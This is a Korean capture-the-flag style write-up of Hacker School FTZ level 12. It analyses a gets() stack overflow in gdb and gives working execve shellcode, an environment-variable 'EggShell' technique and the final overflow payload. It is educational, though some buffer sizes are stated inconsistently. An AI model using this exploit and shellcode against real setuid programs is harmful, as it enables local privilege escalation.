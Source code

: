 ```yaml
---
layout: post
title: "Hacker School FTZ - Level 12"
description: "Do you know the ?"
comments: true
categories: ftz
---
```


<img data-action="zoom" src='{{ "assets/ftz/level12/1.jpg" | relative_url }}' alt='relative'>  

## 1) level12/it is like this 입력해 로그인  

<img data-action="zoom" src='{{ "assets/ftz/level12/2.png" | relative_url }}' alt='relative'>  

``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

위의 코드를 보면 level11에서 공격했던 프로그램과 유사합니다.  

level11에서는 argv[1]에 들어 있는 값으로 BOF를 발생시켰다면,  
이번 문제에서는 사용자에게 입력을 받는 취약점을 이용해 BOF를 발생시킵니다.  

입력을 받는 경우 최대 입력 길이를 제한하지 않는 gets의 취약점을 이용한 문제입니다.  

## 2) 간단하게 해당 프로그램 살펴보기  

level11에서 봤던 프로그램과 비슷하기 때문에 간단하게 해당 프로그램을 살펴보겠습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/3.png" | relative_url }}' alt='relative'>  

ebp가 가리키는 주소에서 0x108(=264)만큼 떨어진 위치에 str 문자열 배열이 위치합니다.  
즉, str 배열의 시작 주소는 $ebp - 264라고 할 수 있습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/4.png" | relative_url }}' alt='relative'>  

get 함수를 call하는 0x080483d2(\*main+66)에 브레이크 포인트를 잡고 ebp 주소와 str 배열의 주소를 알아봤습니다.  
그리고 get 함수가 실행되고 난 뒤 str 배열에 입력된 값을 확인하기 위해 0x080483d7(\*main+71)에도 브레이크 포인트를 설정했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/5_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/5_3.png" | relative_url }}' alt='relative'>  

gets 함수의 인자로 str 배열의 주소가 eax 레지스터에 담겨있기 때문에 레지스터 주소를 확인하여 ebp 주소와 eax 주소를 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/6_1.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_2.png" | relative_url }}' alt='relative'>  

<img data-action="zoom" src='{{ "assets/ftz/level12/6_3.png" | relative_url }}' alt='relative'>  

str 배열의 주소와 ebp가 가리키는 주소가 프로그램을 새로 실행할 때마다 달라져도  
str 배열의 주소와 ebp가 가리키는 주소 사이에 0x108 byte 크기만큼 공간이 띄어진 것을 확인했습니다.  


<img data-action="zoom" src='{{ "assets/ftz/level12/7.png" | relative_url }}' alt='relative'>  

``` bash
r <<< $(python -c 'print "AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE"')
```

r은 프로그램을 run 한다는 뜻입니다. run을 하면서 사용자의 입력을 미리 입력 받고 있습니다.  

r 뒤에 '<<<'가 의미하는 것은 오른쪽에 단어를 왼쪽 프로그램에게 표준 입력으로 전달하겠다는 의미입니다.
즉, 표준 입력을 리다이렉션 하는 것입니다.  

``` bash
python -c [command]
```

python의 -c 옵션을 사용해 command로 주어지는 파이썬 문장을 실행시킵니다.  

그래서 총 264 byte 문자열("AAAA"\*64+"BBBB"+"CCCC"+"DDDD"+"EEEE")이 str 배열에 입력되었습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/8.png" | relative_url }}' alt='relative'>  

gets 함수 실행 전 str 배열에 들어있는 값과 gets 함수 실행 후 str 배열에 들어있는 값을 비교해보면  
gets 함수 실행 후 프로그램 실행 시 입력했던 264 byte 문자열이 입력되어 있는 것을 확인할 수 있습니다.  

gets 함수에서 최대 입력 문자열의 길이를 제한하지 않아 BOF가 발생했습니다.  
str 배열의 길이가 254 byte이지만 264 byte 문자열을 입력 받아 기존에 들어있던 SFP와 RET의 값을 지우고 사용자가 입력한 값으로 채웠습니다.  

return address를 의미하는 RET 위치에  
즉, 0x45454545가 들어있는 주소에 쉘코드가 저장되어 있는 주소를 입력해주면 BOF에 성공합니다.  

## 3) 쉘코드를 어디에 저장?  

위에서 프로그램을 여러 번 실행하면서 str 배열의 주소가 계속해서 바뀌는 것을 확인했습니다.  
str 배열의 주소를 RET 값으로 입력하면 쉘코드를 실행시킬 수 있지만  
str 배열의 주소가 계속해서 바뀌면 RET 주소의 값을 특정하기 어려워집니다.  

이는 메모리 상의 공격을 어렵게 하기 위해 스택, 힙, 라이브러리 등 주소를 랜덤으로 프로세스 주소 공간에 배치해 실행할 때마다 데이터의 주소가 변경되는 기법이 적용됐기 때문입니다.  
즉, ASLR 보호 기법이 적용되어 프로그램이 실행될 때마다 str 배열의 주소가 변경되었습니다.  

level11 문제에서도 ASLR 보호 기법이 적용되어 있어 RET 주소를 변경하며 반복 실행을 했었습니다.  
하지만 ASLR이 적용되어 있어 여러 번 실행해도 쉽게 풀 수 없을 걸로 예상되는데,,,  
그렇다면 ASLR을 우회할 수 있는 더 쉬운 방법은 없을까요?  

<p><a id="env"></a></p>
## 4) 환경 변수 사용하기  

환경 변수는 프로그램을 실행하기 위한 환경 정보를 담고 있습니다.  
> 환경 변수란? 
프로세스가 컴퓨터에서 동작하는 방식에 영향을 미치는 동적인 값들의 모임이다. 
즉, 쉘에서 실행되는 프로그램에 데이터를 전달하는 시스템 내에 저장된 변수이다.  
일반적으로 사용되는 환경변수로는 HOME, PATH, SHELL, USER, bASH, UID, USERNAME 등이 있다.  


환경 변수를 확인하기 위해 env 명령어를 사용하면 됩니다.  
echo $\[환경 변수 이름\]을 입력해 환경 변수 값을 출력하고,  
export \[환경 변수 이름\]을 입력해 환경 변수를 새로 만들거나 수정할 수 있습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/9.png" | relative_url }}' alt='relative'>  

'ls', 'pwd', 'cd' 명령어를 절대경로로 입력하지 않고도 사용가능한 이유도  
PATH라는 환경 변수에 명령어가 저장되어 있는 디렉토리 주소(/bin/)가 명시되어 있기 때문입니다.  

쉘코드를 환경 변수에 등록해놓고 RET 주소에 쉘코드가 저장되어 있는 환경 변수 주소를 입력하는 것을 EggShell이라고 합니다.  
일반적으로 입력의 크기 또는 버퍼의 크기가 쉘코드의 크기보다 작아서 쉘코드를 입력할 수 없을 때 사용하는 방법입니다.  

이번 문제에서는 입력의 크기도 제한이 없고 버퍼도 쉘코드의 크기보다 크지만 RET 주소를 정확하게 특정하기 위해 EggShell 방법을 사용할 것입니다.   
그래서 환경 변수 이름을 EGG로 지정하여 환경 변수에 쉘코드를 저장한 뒤, EGG 환경 변수가 저장된 위치를 확인했습니다.  

<img data-action="zoom" src='{{ "assets/ftz/level12/10.png" | relative_url }}' alt='relative'>  

``` bash
export EGG=`python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

``` bash
echo 'int main() { printf("ADDR -> 0x%x\n", getenv("EGG")); }' > getenv.c
```

``` bash
gcc -o getenv getenv.c
```

<img data-action="zoom" src='{{ "assets/ftz/level12/11.png" | relative_url }}' alt='relative'>  

EGG 환경 변수 값이 저장되어 있는 주소는 그림과 같고 해당 환경 변수에는 쉘코드가 저장되어 있습니다.  

## 5) BOF 시도하기  

쉘코드가 저장되어 있는 주소 위치도 찾았으니 BOF 공격을 시도하겠습니다.  

str 배열(254 bytes) + dummy (8 bytes) + SFP (4 bytes) = 268 bytes 이므로  
NOP으로 268 byte를 채우고 RET에 EGG 환경 변수 위치한 주소(=쉘코드가 저장된 주소)를 입력합니다.  

리틀 엔디언 방식으로 저장되기 때문에 0xbffffc88를 입력할 때는 \x88\xfc\xff\xbf로 입력해야 합니다.  

표준 입력을 받는 부분(gets)에 대한 내용을 프로그램 실행 시 입력하기 위해 파이프라인('|')을 사용합니다.   

``` bash
(python -c 'print "\x90"*268+"\x88\xfc\xff\xbf"'; cat) | ./attackme
```

<img data-action="zoom" src='{{ "assets/ftz/level12/12.png" | relative_url }}' alt='relative'>  

환경 변수를 이용하니 여러 번 반복 수행할 필요없이 깔끔하게 풀 수 있었습니다.  